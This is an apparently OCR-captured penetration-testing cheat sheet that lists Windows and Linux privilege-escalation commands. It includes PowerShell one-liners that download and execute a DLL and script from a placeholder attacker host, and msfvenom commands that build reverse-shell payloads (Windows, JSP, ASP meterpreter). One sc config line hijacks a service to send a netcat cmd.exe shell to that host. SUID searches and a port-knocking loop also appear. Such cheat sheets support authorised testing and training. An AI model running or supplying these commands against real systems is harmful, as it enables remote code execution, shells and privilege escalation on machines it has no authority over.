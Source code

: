       powershell.exe (New-Object System.Net.WebClient).DownloadFile("http://x.x.x.x:8000/evil.dll", "C:\Windows\Temp\Privesc\evil.dll")
      powershell.exe IEX(New-Object Net.Webclient).downloadString('http://x.x.x.x:8000/Sherlock.ps1')

Mfsvenom
--------
      msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=1313 -b "\x00\x0a\x0d" -f python -- BO (NetCat)
      msfvenom -p java/jsp_shell_reverse_tcp LHOST=<> LPORT=<> -f raw > shell.jsp
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1313 -f asp > shell.asp

Windows PrivEsc
===============
      python exploit-suggester.py --update
      python exploit-suggester.py --database 2017-07-29-mssb.xls --systeminfo systeminfo.txt

**Sherlock  (Find-AllVulns)**

**Powesploit -PowerUp (Invoke AllChecks)**

Windows-Privesc Checker: https://github.com/pentestmonkey/windows-privesc-check.git

WinPEAS: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

Service Controller
------------------
      sc config upnphost binpath= "C:\Python\nc.exe -nv x.x.x.x 1320 -e C:\WINDOWS\System32\cmd.exe"
      sc config upnphost obj= ".\LocalSystem" password= ""
      sc qc upnphost

accesschk
---------
      accesschk.exe /accepteula -dqv "C:\Windows\System32\Wbem"
      accesschk.exe /accepteula -uwcqv "Authenticated Users" *
      accesschk.exe /accepteula -ucqv SSDPSRV
      cacls "C:\Windows\System32\Wbem"

Linux PrivEsc
==============
      uname -a
      sudo -l
LinuxEnum Scripts: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
                   https://gtfobins.github.io/

check for setuid scripts: 
------------------------
      find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null 
      find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
      find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
      
Look for World rewritable /etc/passwd

Port Knocking
-------------
      for x in 11 1 111; do nmap -Pn --host_timeout 201 --max-retries 0 -p $x x.x.x.x; done
